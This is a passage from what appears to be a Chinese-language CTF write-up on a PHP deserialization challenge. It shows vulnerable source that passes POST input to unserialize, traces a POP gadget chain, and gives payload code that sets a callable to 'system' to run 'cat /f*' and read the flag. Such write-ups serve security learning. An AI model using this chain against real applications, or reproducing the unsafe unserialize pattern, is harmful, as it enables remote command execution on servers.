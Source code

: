 ```

}

class WhiteGod{
    public $func;
    public $var;

    public function __unset($var)
    {
        ($this->func)($this->var);    
    }
}

@unserialize($_POST['pop']); 
```

经过分析，整条的pop链条如下👇

```
Begin.destruct -> Then.call -> Super.invoke -> Handle.call -> CTF.end -> WhiteGod.__unset
```

由于其中有的类属性是私有或者受保护的，不能够直接访问或引用，我这里就稍稍修改了一下，给那些类添加了一个construct魔术方法，来延申链条，payload如下👇

```
<?php
class Begin{
    public $name;
}

class Then{
    private $func;
    public function __construct(){
        $this->func = new Super();
    }
}

class Handle{
    protected $obj;
    public function __construct(){
        $this->obj = new CTF();
    }

}

class Super{
    protected $obj;
    public function __construct(){
        $this->obj = new Handle();
    }
}

class CTF{
    public $handle;
    public function __construct(){
        $this->handle = new WhiteGod();
    }
}

class WhiteGod{
    public $func='system';
    public $var='cat /f*';

}
$begin=new Begin();
```